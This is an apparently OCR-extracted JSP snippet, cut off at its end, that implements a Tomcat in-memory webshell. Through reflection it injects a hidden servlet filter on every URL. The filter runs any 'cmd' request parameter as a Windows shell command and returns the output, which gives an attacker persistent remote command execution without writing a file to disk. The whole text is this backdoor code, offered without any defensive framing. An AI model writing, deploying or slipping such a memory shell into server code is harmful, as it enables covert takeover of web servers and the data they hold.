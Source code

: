 ```jsp
  ServletContext servletContext = request.getSession().getServletContext();

  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true);
  Map filterConfigs = (Map) Configs.get(standardContext);

  if (filterConfigs.get(name) == null){
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
          byte[] bytes = new byte[1024];
          Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
          int len = process.getInputStream().read(bytes);
          servletResponse.getWriter().write(new String(bytes,0,len));
          process.destroy();
          return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }

    };

    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    standardContext.addFilterMapBefore(filterMap);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

    filterConfigs.put(name,filterConfig);
```